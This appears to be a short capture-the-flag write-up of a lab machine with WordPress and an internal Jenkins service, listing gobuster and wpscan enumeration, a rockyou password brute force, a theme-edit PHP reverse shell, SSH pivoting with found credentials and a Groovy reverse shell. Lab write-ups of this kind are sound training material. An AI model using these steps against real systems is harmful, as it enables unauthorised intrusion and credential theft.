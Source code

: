 # Information Gathering


Enumerated open TCP ports:

![image](https://github.com/user-attachments/assets/80421ae7-df90-435b-81f4-fcc154001d91)

## Port
```
80,22
```

---
# Enumeration

`gobuster dur -u http://10.10.182.251/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php`

`wpscan --url http://10.10.182.251/blog -e u`
-e vp  for vulnerable plugins


```
wpscan — url_ [_http://internal.thm/wordpress_](http://internal.thm/wordpress) _-U admin -P /usr/share/wordlists/rockyou.txt_
```
---

# Exploitation

## Name of the technique
```
Change wordpress theme to reverse shell php
```



---
# Lateral Movement to user

## Local Enumeration
```
Enumerate files and in the opt dir there is a save txt with user password
```

## Lateral Movement vector
```
ssh with stolen credentials from opt 
jenkins.txt with service running on 172.17.0.2:8080
netstat -tlnp to check all services running
ssh port forward --> ssh -L 5555:172.17.0.2:8080 aubreanna@internal.thm
then use jenkins login msfconsole to get credentials
use groovy script for reverseshell
```


---
# Privilege Escalation

## Local Enumeration
```
export TERM=xterm
/bin/bash -i
in the opt directory again a note.txt with root credentials
cat /etc/passwd | grep bash 
```

## Privilege Escalator Vector 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
real flag was on the ssh 
```

---
# Tasks, Trophy & Loot

user flag:
```
THM{REDACTED}
```
root flag:
```
THM{REDACTED}
```
